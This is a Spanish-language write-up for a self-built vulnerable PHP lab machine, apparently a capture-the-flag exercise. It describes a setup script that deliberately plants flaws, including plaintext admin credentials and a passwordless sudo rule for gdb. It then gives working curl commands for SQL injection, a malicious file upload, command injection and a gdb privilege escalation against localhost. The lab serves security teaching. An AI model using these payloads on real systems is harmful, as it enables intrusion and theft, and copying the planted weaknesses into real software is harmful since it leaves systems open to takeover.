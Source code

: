 
1.descargar zip
2.extraerlo
3.poner los archivos en home de user1
4.abrir una terminal
5. HACER:
chmod +x setup_OVA.sh
./setup_OVA.sh

chmod +x automatizado.sh
./automatizado.sh <<IP>> <<PUERTO>>



---

## **Write-up: Explotación de Sistema Vulnerable con RCE y Elevación de Privilegios usando GDB**

### **Descripción del Sistema**
Este sistema web vulnerable, desarrollado en PHP, tiene un fallo de seguridad que permite la ejecución remota de código (RCE). El sistema utiliza Apache como servidor web y se ejecuta bajo el usuario `www-data`. Este fallo permite a un atacante con acceso a la aplicación web escalar privilegios y acceder a dos *flags* escondidas en:

1. **Flag de usuario**: `/home/www-data/user.txt`
2. **Flag de root**: `/root/root.txt`

El exploit aprovecha inyecciones SQL, subida de archivos maliciosos y escalación de privilegios usando **gtfobins** con `gdb`.

---

## **1. Configuración del Sistema Vulnerable**

### **Archivos Utilizados**
1. **`setup_ova.sh`**:
   Este script configura el entorno vulnerable, automatizando la instalación de software y la creación de vulnerabilidades necesarias para la explotación.

   #### **Proceso de Configuración Automatizada**
   El script realiza las siguientes acciones clave:
   - **Instalación de Apache y PHP**: Configura el servidor web Apache y el intérprete PHP, necesarios para ejecutar la aplicación web.
   - **Configuración de MySQL**:
     - Crea la base de datos `ssi`.
     - Añade múltiples tablas relacionadas con usuarios, administradores, imágenes y eventos.
     - Inserta datos predeterminados, incluyendo un administrador inicial con credenciales almacenadas directamente en la base de datos.
   - **Despliegue de la Aplicación**:
     - Extrae un archivo ZIP (`final.zip`) con los archivos web y los despliega en `/var/www/html/web`.
     - Configura permisos para asegurar que el servidor Apache (`www-data`) pueda leer y ejecutar los archivos.
   - **Configuración de GDB para Escalación de Privilegios**:
     - Ajusta los permisos de `gdb` mediante el archivo `sudoers`, permitiendo que el usuario `www-data` ejecute este binario como root sin contraseña.

   #### **Instrucciones de Uso**:
   Ejecutar el script como root:
   ```bash
   chmod +x setup_ova.sh
   ./setup_ova.sh
   ```

2. **`automatizado.sh`**:
   Este script automatiza el proceso de explotación, realizando todos los pasos necesarios, desde la inyección SQL hasta la extracción de las *flags*. Diseñado para ahorrar tiempo, simplifica el ataque para evitar realizar comandos manuales.

   #### **Acciones Automatizadas**
   - Realiza la inyección SQL para extraer credenciales.
   - Se autentica automáticamente como administrador en el sistema.
   - Sube el archivo malicioso `gdb.sh` al servidor.
   - Ejecuta comandos en el servidor remoto para explotar la vulnerabilidad RCE.
   - Escala privilegios con `gdb` y lee las *flags*.

   #### **Instrucciones de Uso**:
   Ejecutar el script directamente:
   ```bash
   chmod +x automatizado.sh
   ./automatizado.sh
   ```

   Durante la ejecución, el script muestra las acciones realizadas y los resultados, incluyendo el contenido de las *flags*.

---

## **2. Explotación**

### **Paso 1: Inyección SQL**
La vulnerabilidad en `rover_id` permite inyección SQL para extraer credenciales. Por ejemplo:
```bash
http://localhost/web/final/ulio-html/listadoFotosRovers.php?rover_id=' UNION SELECT 1, 2, contrasena, gmail, 5 FROM final_usuarios--
```

#### **Objetivo**:
Extraer las credenciales del administrador, incluyendo:
- **Correo electrónico (`gmail`)**: Para el login.
- **Contraseña (`contrasena`)**: En texto plano.

#### **Automatización**:
El script `automatizado.sh` realiza esta extracción utilizando `curl` y formatea la salida con `jq`.

---

### **Paso 2: Acceso como Administrador**
Con las credenciales obtenidas, autenticarse en el sistema:
```bash 
curl -X POST \
     -d "email=admin@gmail.com" \
     -d "contrasena=admin123" \
     -d "es_administrador=on" \
     -c cookies.txt \
     "http://localhost/web/final/dashmin/login.php"
```

Esto almacena las cookies de sesión en `cookies.txt`, lo que permite acciones autenticadas.

---

### **Paso 3: Subida de Archivo Malicioso**
Como administrador, la funcionalidad de subida de imágenes permite cargar un script malicioso (`gdb.sh`):
```bash
curl -X POST \
     -F "profile_picture=@gdb.sh" \
     "http://localhost/web/final/dashmin/upload.php"
```

El archivo se guarda en el directorio `uploads/` del servidor.

---

### **Paso 4: Ejecución del Script Malicioso**
Usando otra vulnerabilidad en el servidor (RCE), ejecutamos `gdb.sh`:
```bash
curl -s -b cookies.txt \
"http://localhost/web/final/dashmin/list_uploads.php?comando=chmod%20744%20uploads/gdb.sh;./uploads/gdb.sh"
```

Este comando:
1. Cambia permisos del script a ejecutables.
2. Lo ejecuta, escalando privilegios a root.

---

### **Paso 5: Captura de las Flags**
1. **Flag de Usuario**:
   El script accede al archivo `/home/www-data/user.txt`:
   ```bash
   curl -s -b cookies.txt \
   "http://localhost/web/final/dashmin/list_uploads.php?comando=cat%20/home/www-data/user.txt"
   ```

2. **Flag de Root**:
   Con `gdb`, se lee `/root/root.txt`:
   ```bash
   ./uploads/gdb.sh
   ```

El contenido de ambas *flags* se muestra en la salida.

---
